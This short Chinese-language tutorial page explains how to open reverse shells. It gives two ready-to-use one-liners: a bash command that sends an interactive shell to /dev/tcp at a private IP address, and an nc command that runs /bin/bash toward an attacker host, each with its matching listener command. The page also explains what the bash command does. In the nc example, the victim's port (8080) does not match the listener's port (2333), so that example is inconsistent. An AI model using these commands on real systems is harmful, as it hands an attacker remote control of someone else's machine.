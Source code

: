 # 反弹shell

## bash 反弹

常用命令：

```
受害者机器：
bash -i >& /dev/tcp/192.168.32.218/2333 0>&1

攻击者机器：
nc -lvp 2333
```

??? note "命令含义"
    `bash`是linux中常见的**shell**，`-i` 表示shell为交互式。
    `/dev/tcp/ip/port`是个特殊文件，在另一方监听端口的情况下读写这个文件可以实现与监听端口的服务器的socket通信。
    `>&`表示将标准输出和标准错误输出重定向到指定文件，`0>&1`表示将标准输出重定向为标准输入。当解析完所有重定向符号后，此时文件描述符123全都指向`/dev/tcp/...`

## nc 反弹

```
受害者机器：
nc 192.168.31.174 8080 -t -e /bin/bash

攻击者机器：
nc -lvvp 2333
```

